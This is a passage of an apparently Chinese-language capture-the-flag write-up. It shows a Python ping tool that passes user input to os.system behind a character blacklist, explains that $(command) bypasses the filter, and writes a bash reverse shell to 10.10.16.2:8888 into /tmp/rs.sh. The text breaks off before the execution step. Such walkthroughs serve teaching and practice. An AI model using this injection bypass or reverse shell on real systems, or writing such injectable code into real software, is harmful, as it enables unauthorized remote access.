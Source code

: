 ```python
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)

if __name__ == '__main__':
    show_header()
    if len(sys.argv) != 2:
        show_help()
        exit()
    if sys.argv[1] == '-h' or sys.argv[1] == '--help':
        show_help()
        exit()
    elif sys.argv[1] == '-s':
        show_statistics()
        exit()
    elif sys.argv[1] == '-l':
        list_ip()
        exit()
    elif sys.argv[1] == '-p':
        exec_ping()
        exit()
    else:
        show_help()
        exit()
```

漏洞点在于'-p'功能，虽然过滤了['&', ';', '-', '`', '||', '|']，但是仍可以通过$(command)执行命令（在bash中$()中的语句会作为变量传递）。

```shell
echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.2/8888 0>&1"' > /tmp/rs.sh
```

添加可执行的权限：

```shell
chmod +x /tmp/rs.sh
```

执行：
